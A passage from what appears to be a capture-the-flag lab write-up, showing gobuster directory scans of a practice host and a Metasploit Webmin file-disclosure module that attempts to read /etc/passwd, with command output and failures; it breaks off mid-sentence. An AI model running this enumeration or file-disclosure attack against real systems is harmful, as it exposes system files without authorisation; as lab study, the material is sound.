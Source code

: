 We also do some GoBusters, for example:
```
hippoeug@kali:~$ gobuster dir -u "https://10.10.10.7:10000" -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
...
Error: error on running goubster: unable to connect to https://10.10.10.7:10000/: invalid certificate: x509: cannot validate certificate for 10.10.10.7 because it doesn't contain any IP SANs
...
hippoeug@kali:~$ gobuster dir -u "https://10.10.10.7" -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
...
Error: error on running goubster: unable to connect to https://10.10.10.7/: invalid certificate: x509: certificate has expired or is not yet valid
```
Some errors as we can see. Let's move on first!

## 3. Attacking Webmin (Port 10000)
Let's run this `auxiliary/admin/webmin/file_disclosure` exploit.
```
msf5 > use auxiliary/admin/webmin/file_disclosure

msf5 auxiliary(admin/webmin/file_disclosure) > run
[*] Running module against 10.10.10.7

[*] Attempting to retrieve /etc/passwd...
[-] Auxiliary failed: Errno::ENOTCONN Transport endpoint is not connected - getpeername(2)
[-] Call stack:
[-]   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-socket-0.1.23/lib/rex/socket.rb:752:in `getpeername'
[-]   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-socket-0.1.23/lib/rex/socket.rb:752:in `getpeername_as_array'
[-]   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-socket-0.1.23/lib/rex/socket.rb:765:in `peerinfo'
[-]   /usr/share/metasploit-framework/lib/rex/proto/http/client.rb:640:in `peerinfo'
[-]   /usr/share/metasploit-framework/lib/rex/proto/http/client.rb:233:in `_send_recv'
[-]   /usr/share/metasploit-framework/lib/rex/proto/http/client.rb:211:in `send_recv'
[-]   /usr/share/metasploit-framework/lib/msf/core/exploit/http/client.rb:336:in `send_request_raw'
[-]   /usr/share/metasploit-framework/modules/auxiliary/admin/webmin/file_disclosure.rb:65:in `run'
[*] Auxiliary module execution completed
```
Nope, didn't work. What about doing exploit instead?
```
msf5 auxiliary(admin/webmin/file_disclosure) > exploit
[*] Running module against 10.10.10.7

[*] Attempting to retrieve /etc/passwd...
[*] The server returned: 200 Bad Request
<h1>Error - Bad Request</h1>
<pre>This web server is running in SSL mode. Try the URL <a href='https://10.10.10.7:10000/'>https://10.10.10.7:10000/</a> instead.<br></pre>
[*] Auxiliary module execution completed

msf5 auxiliary(admin/webmin/file_disclosure) > set ssl true
...
msf5 auxiliary(admin/webmin/file_disclosure) > run
[*] Running module against 10.10.10.7

[*] Attempting to retrieve /etc/passwd...
[*] The server returned: 404 File not found
<h1>Error - File not found</h1>
[*] Auxiliary module execution completed
```
Ah this works, but no file found.
I've tried finding common files, such as: